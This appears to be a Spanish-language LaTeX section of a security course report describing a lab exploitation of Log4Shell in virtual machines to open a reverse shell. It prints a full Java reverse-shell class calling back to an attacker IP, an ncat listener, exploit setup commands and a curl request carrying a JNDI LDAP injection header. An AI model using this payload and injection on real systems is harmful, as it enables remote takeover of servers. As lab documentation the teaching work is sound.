\documentclass[../main.tex]{subfiles}

\begin{document}

\section{Obtención de un \it{reverse shell} explotando Log4shell}

En este apartado se describe el ataque realizado explotando la vulnerabilidad \it{Log4shell} para crear un \it{reverse shell}.

Para ello, se han usado dos máquinas virtuales en un mismo host y una red virtual sólo anfitrión que las conecta a éste y entre ellas. La distribución y el rol de cada una de las máquinas involucradas en la prueba es el siguiente:
\begin{figure}[!h]
\centering

\includegraphics[width=15.0cm]{imagenes/4-ReverseShell/Ataque.drawio.png}
\end{figure}
\begin{itemize}
    \item \it{192.16.56.1} es la IP del atacante, que en este caso se trata del host en la red virtual
    \item \it{192.16.56.100} es la IP del servidor LDAP malicioso puesto por el atacante, que en este caso es la máquina virtual \it{Kali Linux} usada en la práctica 3 de la asignatura
    \item \it{192.16.56.200} es la IP del servidor web vulnerable, que se trata de la aplicación web usada en los anteriores apartados \cite{vulnerable-app} lanzada en un contenedor Docker sobre la máquina virtual \it{Debian} usada en la práctica 5 de la asignatura
\end{itemize}

A continuación, se explican la preparación que se ha hecho en cada uno de ellas para efectuar el ataque.

%--------------------------------------------------
\subsection{Aplicación vulnerable}

Como ya se ha comentado en el anterior apartado, se ha hecho uso de un servidor web que registra el valor del campo \it{X-Api-Version} de la cabecera HTTP de las peticiones que recibe usando \it{Log4J}.

Así, se ha utilizado el comando \it{curl} de la forma descrita en el anterior apartado para hacer que el servidor web cargue la clase maliciosa usando el API \it{JNDI}.

%--------------------------------------------------
\subsection{Servidor LDAP malicioso}

Si bien se ha intentado configurar el servidor LDAP desde cero, se ha terminado usando el exploit del proyecto \it{log4j-shell-poc} \cite{exploit}. Debido a la forma en que se quería realizar el ataque (con el servidor LDAP en una máquina distinta a la del atacante), se han implementado algunas modificaciones sobre el código original, que pueden verse en este fork \cite{exploit-fork}.

Así, para clonar y configurar el proyecto en la máquina virtual se han ejecutado los siguientes comandos:
\begin{codigo}{shell}
apt update
# Instalar java y javac
apt install default-jdk python3 python3-pip
# Clonar y copiar ficheros necesarios para lanzar el servidor LDAP malicioso
git clone https://github.com/AdriandMartin/log4j-shell-poc.git
cd log4j-shell-poc/
pip3 install -r requirements.txt
\end{codigo}

%-------------------------
\subsubsection{Clase Java con el \it{reverse shell}}

La clase Java \it{Exploit.java} se genera en el propio script \it{poc.py}, concretamente en la función \it{generate\_payload}. 

En ella, se reemplazan los valores de las variables \it{host} y \it{port} por la IP y el puerto en los que el atacante ha lanzado \it{netcat}.

El código de la clase se muestra a continuación:
\begin{codigo}{java}
import java.io.IOException;
import java.io.InputStream;
import java.io.OutputStream;
import java.net.Socket;

public class Exploit {
    public Exploit() throws Exception {
        String host="${ATTACKER_IP}";
        int port=${ATTACKER_PORT};
        String cmd="/bin/sh";
        Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();
        Socket s=new Socket(host,port);
        InputStream pi=p.getInputStream(),
            pe=p.getErrorStream(),
            si=s.getInputStream();
        OutputStream po=p.getOutputStream(),so=s.getOutputStream();
        while(!s.isClosed()) {
            while(pi.available()>0)
                so.write(pi.read());
            while(pe.available()>0)
                so.write(pe.read());
            while(si.available()>0)
                po.write(si.read());
            so.flush();
            po.flush();
            Thread.sleep(50);
            try {
                p.exitValue();
                break;
            }
            catch (Exception e){
            }
        };
        p.destroy();
        s.close();
    }
}
\end{codigo}

Después de generar el código Java con los valores correctos de las variables, el propio script \it{poc.py} compila el fichero generando el bytecode correspondiente. Éste supondrá el \it{payload} en el ataque.

%-------------------------
\subsubsection{Funcionamiento del script \it{poc.py}}

Tras generar el \it{payload} para el ataque, el script \it{poc.py} lanza dos servicios en la máquina en la que se ejecuta: un \it{marshaller} del formato LDAP y un servidor HTTP.

El \it{marshaller} (fichero \it{target/marshalsec-0.0.3-SNAPSHOT-all.jar}) es un codificador y decodificador que implementa el protocolo LDAP, pero que simplemente redirige las peticiones que le llegan al servidor HTTP, de tal forma que éste se encarga de que el formato con el que el solicitante recibe la respuesta sea indistinguible al que se obtendría con un servidor LDAP real. Para que funcione correctamente, en el proyecto se indica que la versión de Java debe ser la \it{8u20} \cite{exploit-jdk}. En realidad el \it{marshaller} se corresponde con un proyecto independiente que puede encontrarse aquí \cite{exploit-marshaller}.

El servidor HTTP recibe las peticiones que le rexpide el servidor LDAP y le devuelve el fichero \it{Exploit.class}, correspondiente al \it{payload} del ataque. El \it{marshaller} se encargará de codificarlo de forma que la respuesta que reciba el cliente se corresponda con el formato de LDAP.

%--------------------------------------------------
\subsection{Perpetración del ataque con \it{netcat} y \it{curl}}

El ataque como tal consiste en conseguir que la clase \it{Exploit}, compilada y servida por el servidor LDAP malicioso, se cargue en el servidor web vulnerable, de tal forma que al ejecutarse se abra un \it{reverse shell} con la máquina del atacante.

Los pasos que se han seguido para lograrlo son los siguientes:
\begin{enumerate}
    \item En un terminal en la máquina del atacante (IP \it{192.168.56.1}) se ejecuta \it{netcat} escuchando en el puerto \it{12345}:
          
          \begin{codigo}{shell}
ncat -lp 12345
\end{codigo}
    
    \item En un terminal en la máquina \it{Kali} (IP \it{192.168.56.100}) se lanza el script \it{poc.py}:
          
          \begin{codigo}{shell}
./poc.py --serversip 192.168.56.100 \
         --webport 8000 \
         --ncip 192.168.56.1 \ 
         --ncport 12345
\end{codigo}
          
          El resultado será el siguiente:
          \begin{figure}[H]
          \centering
          
\includegraphics[width=13.5cm]{imagenes/4-ReverseShell/exploit_startup.png}
          \end{figure}
          
          Es decir, se habrá generado y compilado la clase \it{Exploit.java}, en cuyo código se habrá sustituido las variables \it{host} y \it{port} por \it{192.168.56.1} y \it{12345} respectivamente (IP y puerto en los cuales se ha lanzado en el anterior paso \it{netcat} en la máquina del atacante), y por otro lado, en la IP \it{192.168.56.100} se han lanzado el \it{marshaller} del protocolo LDAP (en el puerto \it{1389}) y el servidor HTTP (en el puerto \it{8000})
          
          Además, al lanzar esos servicios, el script ha generado un mensaje indicando el \it{lookup} del API \it{JNDI} que debe introducirse en el log para generar la carga de la clase \it{Exploit} allí donde se ejecute 
    
    \item Por último, en otro terminal en la máquina del atacante, se ejecuta el comando \it{curl}, dando como valor al campo \it{X-Api-Version} el indicado por el exploit
          
          \begin{codigo}{shell}
curl 192.168.56.200:8080 \
     -H 'X-Api-Version: ${jndi:ldap://192.168.56.100:1389/a}'
\end{codigo}

\end{enumerate}

Como resultado al último paso, se tiene que:
\begin{itemize}
    \item En el terminal de la máquina del atacante en el que se había lanzado \it{netcat} ahora pueden ejecutarse comandos en el servidor web de manera arbitraria, mientras que aquel en el que se había lanzado \it{curl} se ha quedado bloqueado como consecuencia de la no terminación de la petición mediante la cual se ha provocado la carga de la clase \it{Exploit} en el servidor
          
          \begin{figure}[H]
          \centering
          
\includegraphics[width=13.5cm]{imagenes/4-ReverseShell/curl-netcat_after-attack.png}
          \end{figure}
    
    \item En el terminal de la máquina en la que se ejecuta el servidor LDAP malicioso se ha servido el fichero \it{Exploit.class}, primero atendiendo la petición LDAP y luego sirviéndolo como tal mediante la petición HTTP redirigida
          
          \begin{figure}[H]
          \centering
          
\includegraphics[width=13.5cm]{imagenes/4-ReverseShell/exploit_after-attack.png}
          \end{figure}
    
    \item La ejecución de la aplicación web vulnerable continúa sin ningún cambio, a pesar de que en uno de los hilos que ha lanzado para atender una petición HTTP se ha abierto un \it{reverse shell}
          
          \begin{figure}[H]
          \centering
          
\includegraphics[width=13.5cm]{imagenes/4-ReverseShell/vulnerable-app_log-after-attack.png}
          \end{figure}
    
\end{itemize}

\end{document}
